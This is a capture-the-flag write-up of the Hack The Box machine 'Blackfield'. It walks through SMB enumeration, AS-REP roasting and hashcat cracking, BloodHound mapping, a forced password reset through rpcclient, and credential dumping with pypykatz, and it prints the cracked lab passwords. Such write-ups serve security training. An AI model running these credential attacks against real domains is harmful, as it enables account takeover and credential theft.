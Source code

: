 # Blackfield

## Key Take Aways

* ASREP Roasting
* Force change password
* Lsass dump

## NMAP

``` console
10.129.229.17:53
10.129.229.17:88
10.129.229.17:139
10.129.229.17:135
10.129.229.17:389
10.129.229.17:389
10.129.229.17:445
10.129.229.17:445
10.129.229.17:593
10.129.229.17:3268
10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp filtered ldapssl no-response
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
3269/tcp filtered globalcatLDAPssl no-response
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp filtered adws no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

![smb-shares](/HTB/Machines/images/Blackfield-smb-shares.png)

We can get usernames via profles$ share and use it with ASREP Roasting.

``` console
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

## ASREP Roasting

```console
impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt
```

![GetNPUsers](/HTB/Machines/images/Blackfield-GetNPUsers.png)

![dumphashes](./images/Blackfield-dump-hashes.png)

![smb-svc](./images/Blackfield-SMB-svc.png)

As mentioned above we still can't access the content of the forensic share.

## BloodHound

```console
bloodhound-python -c all -u "support" -p "#00^BlackKnight" -d blackfield.local -dc dc01.blackfield.local -ns 10.129.229.17 --zip
```

![bloodhound](./images/Blackfield-bloodhound-py.png)

![node-info](./images/blackfield-node-info.png)

![forcechangepassword](./images/Blackfield-ForceChangePassword.png)

## rpcclient

As mentioned at [here](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) rpcclient gets the job done easier.

```console
rpcclient -U blackfield.local/support dc01.blackfield.local
```

![rpcclient-changepwd](./images/Blackfield-rpcclient.png)

## Access Foresic share

```console
nxc smb blackfield.local -u audit2020 -p 'Test!!!!' --shares
```

![smb-shares-audit](./images/Blackfield-audit-smb.png)

![get-forensic](./images/Blackfield-audit-forensic.png)

we can extract lsass.DMP from memory_analysis/lsass.zip

![forensic](./images/Blackfield-forensic.png)

## lsass dump

```console
pypykatz registry --sam sam system
```

[reference](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

![lsassdump](./images/Blackfield-lsass-dump.png)

![user](./images/Blackfield-User.png)
